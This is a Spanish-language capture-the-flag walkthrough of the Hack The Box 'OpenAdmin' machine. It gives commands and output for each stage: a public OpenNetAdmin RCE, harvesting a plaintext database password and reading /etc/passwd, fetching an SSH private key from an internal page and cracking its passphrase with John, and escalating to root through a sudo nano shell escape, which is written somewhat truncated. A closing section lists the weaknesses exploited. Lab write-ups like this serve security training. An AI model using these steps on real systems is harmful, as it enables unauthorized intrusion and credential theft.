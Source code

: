 # Openadmin ![Avatar](https://www.hackthebox.eu/storage/avatars/5b00db157dbbd7099ff6c0ef10f910ea_thumb.png)     

## Initial Scan

```nmap
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
## Enumeration

Empecemos enumerando el servicio web 
```bash
gobuster dir -u http://10.10.10.171/ -w wordlists/big.txt
/artwork (Status: 301)
/music (Status: 301)
/sierra (Status: 301)
```
Miramos en /music y cuando pulsas el login nos lleva a /ona donde se nor muestra una pantalla de el servicio OpenNetAdmin donde se nos revela que la versión es la 18.1.1
## Exploit

La versión de OpenNetAdmin presenta una vulerabilidad RCE conocida
```
https://www.exploit-db.com/exploits/47691
```
Usandolo obtenemos una shell como www-data

## Local recon
### Enumeramos usuarios con acceso via shell
```
$ cat /etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```
### Buscamos contraseñas
```
cat local/config/database
    'db_type' => 'mysqli',
    'db_host' => 'localhost',
    'db_login' => 'ona_sys',
    'db_passwd' => 'n1nj4W4rri0R!',
    'db_database' => 'ona_default',
    'db_debug' => false,
```
### Jimmy
Probamos la contrasña obtenida en jimmmy en joanna y obtenemos acceso a el usuario jimmy
```
jimmy@openadmin:~$ netstat -aln | grep 127
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:58948         127.0.0.1:52846         TIME_WAIT  
```
Vemos que hay paginas en localhost
```
jimmy@openadmin:~$ curl 127.0.0.1:52846
```
Vemos que tenemos una pagina de login
```
jimmy@openadmin:cd /var/www/internal
jimmy@openadmin:/var/www/internal$ ls -l
total 12
-rwxrwxr-x 1 jimmy internal 3229 Nov 22  2019 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23  2019 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23  2019 main.php
```

En index.php encontramos el siguiente fragmento de código
### Index.php
```
if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
    if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
}
```
### Main.php
```
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
```
Con todo esto podriamos obtener el id_rsa de joanna y logearnos en su cuenta

El hash corresponde a la palabra Revealed, asi que podemos logearnos sin problema
```bash
curl -XPOST localhost:52846 -d "login&username=jimmy&password=Revealed" -L -v | grep PHPSESSID
PHPSESSID=i3spbj9jben1bon5alpr0ek1at
curl localhost:52846/main.php -H "PHPSESSID=i3spbj9jben1bon5alpr0ek1at" -v
```
Con esto obtenemos la clave RSA

### Crackeando la clave

Guardamos la clave RSA en local y la crrackeamos
```bash
$:/home/~/.JohnTheRipper/run/ssh2john.py OpenAdmin_rsa > hash.txt
$:/home/~/.JohnTheRipper/run/john hash.txt --wordlist=/home/~/rockyou.txt
> bloodninjas      (OpenAdmin_rsa)
```

### Joanna

```bash
$:ssh -i OpenAdmin_rsa joanna@10.10.10.171
joanna@openadmin:~$ wc -c user.txt 
33 user.txt
```

## Privesc

```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Veamos como podemos explotar esto
```bash
sudo /bin/nano /opt/priv
```
Una vez abierto nano con privilegios elevados usamos CTRL-R + CTRL+X y podemos ejecutar
```bash
reset; sh 1>&0 2>
```
Y solo nos quedaria leer la flag
```
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/home/joanna
# cd /root
# ls
root.txt
# wc -c root.txt
33 root.txt
```

# Analisís de la intrusión
### Open Net Admin vuln
Existe una vulnerabilidad documentada en el servicio de open net admin de la máquina
### No hashing
Las contraseñas del servicio de base de datos se almacenan en texto plano lo que nos permito leer las credenciales de jimmy y acceder 
### Bad password police
La contraseña de la clave RSA de joahna esta presente en rockyou.txt, esto nos permito acceder a su cuenta
### Privileged nano execution
Se nos permite utilizar nano con ciertos privilegios con un usuario, el problema esta en que podemos ejecutar comandos arbitrarios desde nano
